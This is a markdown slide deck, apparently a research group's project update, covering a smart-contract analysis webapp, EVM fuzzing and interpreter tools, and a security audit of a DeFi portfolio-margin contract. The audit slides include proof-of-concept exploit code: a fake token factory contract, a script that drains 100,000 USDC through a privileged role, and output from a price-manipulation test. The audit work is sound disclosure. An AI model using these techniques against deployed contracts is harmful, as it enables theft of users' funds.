

# Projects update

<div >CHEN Li @ SBIP</div>

---

## verazt-webapp: New features

- **Human-Readable inputs and outputs, EOA account**
- Link and Unlink google and github accounts
- **Make patch by ChatGPT configurable**
- Update email using OTP and update username
- Renew account by user
- **Add ansible deployment playbook**


``` json
...
  "readable_input": [
          {
            "eoa": false,  <--- Whether its EOA, for internally deployed this might not be correct
            "label": "AttackerTransparent", <--- Name of the actual contract passed in
            "type": "AnotherClass", <--- Expected type as specificed in the function signature
            "uri": null,   <--- When the address is a contract, this points to the source code path if it's available.
            "value": "0xcee9d0f55a264e41acbf9c2fdd163bb077b7e261"
          }
        ]
...
```


___

## verazt-webapp: Bug Fixes

- **Fix RabbitMQ flaky connection issue**
- Resolving challenges related to solcx upgrading.
- Fix caching not working for contract summary by ChatGPT
- Fix quota displayed in frontend incorrect bug (`user.quota.numFilesRemaining`)


---

##  Audit for DBOE


- Manual auditing mainly to find business logic bugs
- Create PoC
- Found some high risk bugs

___

##  Audit for DBOE: Access control and centralization

- Access control and centralization (**by Minh**)
  - In the Decentralised Portfolio Margin (DPML) contract the MMLP (market makers
    and liquidity providers) can withdraw all stable coins from the contract

``` solidity
// Fake factory contract
...
    function balanceOf(address account) external view returns (uint256){
        return 1000000000000000000 ether;
    }

    function approve(address a, uint256 value) public returns (bool){
        return true;
    }
}
```

``` js
// MMLP can update to use contracts under his control (a fake factory contract and an address to receive ether in this case)
await dboePortfolioMarginer.connect(mmlp).updateDBOEInfo(fakeOptionFactory.address, badActor.address);
await usdc.connect(badActor).transferFrom(dboePortfolioMarginer.address, badActor.address, 100000 * ( 10 ** USDT_DECIMALS));
// ...
// =>
// hacker USDC profit: 100000 USD
```

___

##  Audit for DBOE: Price manipulation

- Denial of Service:
  - mailicious stable coin stakers (lenders) can prevent borrower from borrow money even the DPML contract
    has enough balance

- Price manipulation
  - mailicious stable coin stakers (lenders) can manipulate price to gain extremly high profit


``` bash
❯ hardhat test test/portfolioMarginerHack.spec.ts
sub1 USDC balance: 10000
sub1 staking 40 USD
sub1 USDC balance: 9960
dboePortfolioMarginer USDC balance:  BigNumber { value: "0" }
sub1 unstake 100 times
Pending pendingWithdrawalAmt BigNumber { value: "4011574073" }
...
Pending pendingWithdrawalAmt BigNumber { value: "658800586431173" }
dboePortfolioMarginer now have enough balance
sub1 unstake again
...
sub1 balance: 76872.54192536
  ```


---


## SmartFuzz and TinyEVM

- TineyEVM
  - Added **address creation override** through the inspector (benefit: state visible during a transaction)
  - Added **Live network fork**
  - Added **tracing** to help debugging transaction execution
- SmartFuzz
  - Updated to use the latest tinyevm and fixed some compatibility errors.

---


## cuEVM Project

- Learning CUDA Parallel Programming
- Created a light weight EVM Interpreter
  - Execute raw transactions with optional initial env and states
  - Parse and run de facto standard ethtest cases
- cuEvm Runner in evm-interpreter for testing to make sure cuEVM is compatible with
  standard EVM (ongoing)


---

## Support Solidity compilation in the frontend (ongoing)


- Capture compilation bugs and early feedback to users
- Reducing backend resource usage
- Reusing AST from the compilation in the backend


---

### Thank You & Questions


